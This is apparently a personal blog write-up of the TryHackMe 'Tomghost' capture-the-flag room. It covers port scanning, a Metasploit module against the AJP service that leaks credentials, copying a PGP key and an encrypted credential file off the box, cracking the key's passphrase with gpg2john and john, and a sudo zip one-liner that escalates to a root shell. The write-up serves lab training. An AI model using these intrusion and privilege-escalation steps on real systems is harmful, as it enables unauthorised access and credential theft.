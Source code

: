 ### THM Tomghost

Now we're going after a THM box called Tomghost.  Advanced warning, this box has some language so if that bothers or upsets you, please stop reading.

For those of you still here, let's get to it.

Nmap to start as always and looks like we've got a couple ports open.

22, 53, 8009, and 8080.

22 is ssh, 53 is dns.  8080 is an http server.  I end up finding out that 8009 is Apache JServ Protocol (AJP).  After some searching, I find on exploit-db that there's a metasploit option for this.  Fire it up and sure enough, I get a username and password.

![user account](/Images/THM8Tomghost/pic1.png)

Once I grabbed that, I was able to connect to the ssh and grab the user.txt file.

![user.txt](/Images/THM8Tomghost/pic2.png)

Once I got connected I was able to start poking around.  Doing some enumeration and found a couple files.  Using `scp` I was able to grab those files.

```
(kali@kali)-$ scp skyfuck@10.10.183.100:credential.pgp /home/kali/Documents/THM\ Tomghost 
skyfuck@10.10.183.100's password: 
credential.pgp                                                                                 100%  394     1.8KB/s   00:00    
                                                                                                                                 
(kali@kali)-$ scp skyfuck@10.10.183.100:tryhackme.asc /home/kali/Documents/THM\ Tomghost
skyfuck@10.10.183.100's password: 
tryhackme.asc                                                                                  100% 5144    23.0KB/s   00:00
```

Now that we have those files, lets get to accessing them.

Using `gpg2john` we take the .asc file and output it to `output`.  Then we cat out the `output` to make sure it did what it was supposed to do.

[pgp2john](/Images/THM8Tomghost/pic3.png)

Now that this is done, we run that output file through `john` like so...

[asc file](/Images/THM8Tomghost/pic4.png)

Once that's done, we can then decrypt that pgp hash.

[pgp decrypt](/Images/THM8Tomghost/pic4.png)

Wow, what a password.  Ok, now we have a new user and a password, let's try SSH and see if we can get in.

```
(kali@kali)-$ ssh merlin@10.10.183.100          
merlin@10.10.183.100's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Mar 10 22:56:49 2020 from 192.168.85.1
merlin@ubuntu:~$ whoami
merlin
merlin@ubuntu:~$
```

And we're in.  Now let's see what we can do.

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```

With some help from GTFOBins, that was easy pz.  And that's another one rooted.  That's 3 today.  Let's keep it up, 2 more to go.

Thanks for coming along.  See you on the next one.

